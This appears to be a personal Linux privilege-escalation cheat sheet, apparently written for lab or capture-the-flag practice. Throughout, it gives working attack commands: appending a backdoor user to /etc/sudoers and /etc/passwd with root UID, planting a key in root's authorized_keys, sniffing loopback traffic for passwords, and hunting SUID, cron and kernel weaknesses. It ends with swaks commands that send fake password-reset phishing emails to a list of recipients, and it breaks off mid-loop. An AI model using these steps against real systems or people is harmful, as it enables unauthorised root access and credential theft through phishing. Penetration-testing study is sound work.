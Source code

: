 #### Check Kernel Info

- uname -a
- cat /etc/issue
- cat /etc/os-release

#### Check for Writable Files?

- find / -type d -maxdepth 5 -writable 2>/dev/null
- find / -writable -type f 2>/dev/null

#### Check for writable files for all users

- find / -type f -perm 0777

#### Writable to /etc/sudoers?

- echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
- sudo su hacker

#### Writable to /root/.ssh/authorized_keys ?

- generate our own key
  - ssh-keygen -t rsa -b 4096 -f ~/my_root_key
- add our key to /root/.ssh/authorized_keys
  - echo "key here" >> /root/.ssh/authorized_keys
- ssh to the target box

#### Exploit Require Compiling

- /proc/version
- gcc exploit-file.c -o exploit-file.c

#### Check for ENV path for potential information

- cat .bashrc

#### Check SUDO privilege

- sudo -l

#### Interesting places to check?

- check /opt/

#### Service & Process

- Check system running process
  - `ps aux` - list running processs
  - `watch -n 1 "ps -aux | grep pass"` - look for anything with running process that might include passwords
  - `sudo tcpdump -i lo -A | grep "pass"`

#### Cron Jobs

- Check for Cron Jobs, also repeat these replacing cron with anacron
  - `ls /etc/cron.*`
  - `ls /var/spool/cron`
  - `cat /etc/crontab` - check for crons
  - anything running as root in the /opt ?
  - `ls -lah /etc/cron*`
    - check insecure file permissions, since most jobs in this particular file will run as root
  - check cron tab under current user
    - `crontab -l`
  - `grep "CRON" /var/log/syslog` - check for running cron jobs which root own and we can edit the file as low level user
    - `ls -lah` - check to see if our low level user's permission on the script

#### Password Authentication Abuse

- only work if we can write to `/etc/passwd`
- add a new user + password to it as root user and switch to it
  - `pw=$(openssl passwd Password123); echo "hacker2:${pw}:0:0:root:/root:/bin/bash" >> /etc/passwd`
  - switch to that user via `su hacker` if you already have a working shell

#### Setuid Binaries & Capabilities

- SUID
  - `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null` - list SUID own by root user
  - `find / -type f -perm -04000 -ls 2>/dev/null` - list files that have SUID or SGID bits set
- Capabilities
  - `getcap` - list enabled capabilities

#### Kernel Exploit

- check the Linux Exploit Suggester

  - try anything that is Exposure: highly probable

- `cat /etc/issue` - check ver of linux
- `uname -r` - check kernel version
- `arch` - check system architecture
- `dpkg -l sudo` - check sudo version

#### Local Port listening check

check for anything that listen locally `ss -lntu`

#### Linux Shit

- if there is a github
  - dump the github via git_dumper.py then go into the .git directory and use `git log` & `git show`

#### Use pspy64 for suspicious process/service running in the back

#### nopasswd: ALL

- do `sudo -i` to get a shell as root

#### Installed applications

- dpkg -l

#### SSH

- file path for id_rsa location
  `/home/anita/.ssh/id_rsa or id_ecdsa
`/home/anita/.ssh/authorized_keys`

- ssh with id_rsa key
  `ssh -i <id_rsa_file> <user><ip-address>`

- fixing the Permissions 0664 for 'id_rsa' are too open error
  `chmod 600 id_rsa`

#### Create a wordlist

create possible users

- `cewl http://postfish.off/team.html -m 5 -w team.txt`

create passwords

- `cewl -d 5 http://postfish.off/team.html -w possible_passwords.txt`

#### Convert Upper to Lower

Convert a file with uppers to lower

- `tr A-Z a-z < possible_passwords.txt > temp.txt && mv temp.txt possible_passwords.txt`

#### Send Mail using SWAKS

to single user

- `swaks --to Mike.Ross@postfish.off  --from it@postfish.off --header "Subject:password reset link" --body "Hey team, as discussed in our previous email, reset your passwords at http://192.168.45.224" --server 192.168.113.137`

to multiple user

- while IFS= read -r email; do
  swaks --to "$email" --from it@postfish.off --header "Subject: password reset link" --body "Hey team, as discussed in our previous email, reset your passwords at http://192.168.45.224" --server 192.168.113.137
